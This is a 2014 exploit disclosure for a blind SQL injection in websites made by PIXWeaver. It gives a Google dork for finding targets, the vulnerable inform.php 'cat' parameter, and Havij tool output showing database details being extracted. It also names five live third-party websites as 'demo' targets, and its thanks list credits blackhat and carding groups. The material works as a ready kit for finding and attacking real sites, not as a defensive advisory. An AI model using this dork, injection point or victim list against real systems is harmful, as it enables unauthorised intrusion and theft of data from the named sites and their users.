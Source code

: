 # Website by PIXWeaver Blind SQL Injection Disclosure

* Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
* Google Dork          : inurl:/inform.php?cat=
* Date                 : 26/08/2014
* Exploit Author       : Barrabravaz
* Vendor Homepage      : http://www.pixweaver.com/
* Version              : -
* Tested on            : Windows, Linux

## Author will be not responsible for any damage
* Issue: Blind SQL Injection Disclosure Vulnerability
* Risk level: High

## Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
> http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45

> http://www.sportsystemscorp.com/inform.php?cat=%inject_here%

> http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188

> http://www.agl.ca/inform.php?cat=%inject_here%&nv=23

> http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And You


* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)